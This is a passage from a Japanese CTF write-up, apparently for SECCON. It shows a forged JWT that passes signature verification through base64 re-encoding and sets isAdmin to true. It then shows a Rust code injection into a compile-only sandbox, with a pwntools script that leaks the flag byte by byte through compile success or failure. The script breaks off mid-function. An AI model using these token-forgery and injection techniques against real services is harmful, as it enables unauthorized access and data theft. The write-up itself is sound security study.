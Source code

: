 仮にクライアントから送信された署名とサーバー側で再計算した署名が異なっていたとしても、デコード結果が同じであれば検証を通過することがわかります。したがって、クライアントから送信する署名を次のようにBase64デコードしてから再エンコードすることで、署名からピリオドを消し検証を通過させることができます。

```js
Buffer.from(
  'eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ',
  'base64',
).toString('base64');
// => eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9eyJpc0FkbWluIjp0cnVlfQ=
```

最終的なJWTは次のようになりました。これを送信するとフラグが手に入ります。

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ.eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9eyJpc0FkbWluIjp0cnVlfQ=
```

### crabox [sandbox]

サーバーに文字列を送信すると、その文字列とフラグが含まれるRustのソースコードが生成され、そのコンパイルを行ってくれるという問題です。

はじめはProcedural Macroか`build.rs`を書いてフラグを外部に送信しようと考えていたのですが、cargoではなくrustcを使った単一ファイルのコンパイルではどちらも使えませんでした。また、`const fn`を使ってフラグをどこかに出力しようかとも考えましたが、当然ながら`const fn`で外部と通信することはできませんでした。

しばらく一人で悩んでいたところでチームメンバーの発言をきっかけとして、コンパイルが成功したかどうかの情報がサーバーから返されていることを思い出しました。`const`文脈で`include_str!(file!())`を使えばソースコードの内容によってコンパイルの成功/失敗を変えられると考え、最終的には次のコードでソースファイルのnバイト目が特定の値であるかどうかを判別できるようにしました。

```rust
fn main() {}

const _: () = assert!(include_str!(file!()).as_bytes()[0] == 0x66);
```

実行時にpanicを起こすのではなくコンパイル時に失敗させるのに少し苦労しましたが、次の記事のおかげでうまくいきました。

https://tech-blog.optim.co.jp/entry/2021/12/03/080000#const_panic

この手法を使い、次のスクリプトでフラグを手に入れました。

```python
from pwn import *
from tenacity import retry


@retry
def try_char(pos, char):
    # io = process("pipenv run python app.py", shell=True)
    io = remote("crabox.seccon.games", 1337)
    io.recvuntil(b"__EOF__):\n")
    io.send(
        (
            f"}}const _:()=assert!(include_str!(file!()).as_bytes()[{110+pos:04}] == {ord(char):03});fn a(){{"
            + "\n__EOF__\n"
        ).encode()
    )
    l = io.recvline()
    io.close()
    if l == b":)\n":
        return True
    elif l == b":(\n":
        return False
    raise ValueError(b"Unexpected response:" + l)


def find_next_char(pos):
    for (
        c
```